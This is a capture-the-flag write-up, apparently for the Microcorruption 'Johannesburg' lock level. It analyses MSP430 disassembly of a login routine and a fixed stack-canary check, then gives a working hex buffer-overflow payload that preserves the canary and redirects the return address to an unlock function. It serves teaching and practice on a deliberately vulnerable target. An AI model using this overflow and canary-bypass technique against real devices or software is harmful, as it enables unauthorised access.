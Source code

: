 # Johannesburg

**Date Completed:** 10/26/2025

Starting by looking at `<login>` we see:

```asm
452c <login>
452c:  3150 eeff      add	#0xffee, sp
4530:  f140 9a00 1100 mov.b	#0x9a, 0x11(sp)
```

The program is making room on the stack for 18 bytes (adding 0xffee is the same as subtracting 18), and then writing `0x9a` in the 17th byte relative to sp.

So we end up with a stack that looks like this:

```sh
> r sp
43ec 0000 0000 0000 0000 0000 0000 0000 0000  ................
43fc 009a 3c44 3140 0044 1542 5c01 75f3 35d0  ..<D1@.D.B\.u.5.
```

Upon seeing this my first though was: "Was is the relevance of `0x9a` in the program?". Looking a bit further ahead in `<login>` we see:

```asm
455e:  b012 5244      call	#0x4452 <test_password_valid>
4562:  0f93           tst	r15
4564:  0524           jz	$+0xc <login+0x44>
...
4570:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4574:  b012 f845      call	#0x45f8 <puts>
4578:  f190 9a00 1100 cmp.b	#0x9a, 0x11(sp)
457e:  0624           jz	$+0xe <login+0x60>
4580:  3f40 ff44      mov	#0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call	#0x45f8 <puts>
4588:  3040 3c44      br	#0x443c <__stop_progExec__>
458c:  3150 1200      add	#0x12, sp
4590:  3041           ret
```

After the user enters the password `<test_password_valid>` is called to check if the password matches. If there is a match `r15` will be non-zero and the door is unlocked. If the password is not valid `r15` (the return value from test_password_valid) will be zero, we take the jump, print out that th password is not correct, and then check if the value `0x9a` is still in the stack. If the value `0x9a` is not in the stack, it's because the user input was too long and copied past its allocated buffer and the program jumps to `<__stop_progExec__>`. If the value `0x9a` is still in the stack the program calls the `ret` instruction.

My though here then is to blow past the 16-byte allocated buffer on the stack, make sure the value `0x9a` remains where it needs to be, and then overwrite the memory for the `ret` instruction to point to the `<unlock_door>` method (at memory address `0x4446`).

So we end up with something like this:
`a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5 + ff9a + 4644 + 00`

**Solution: in HEX `a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5ff9a464400`.**

```sh
> solve
a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5ff9a464400
```
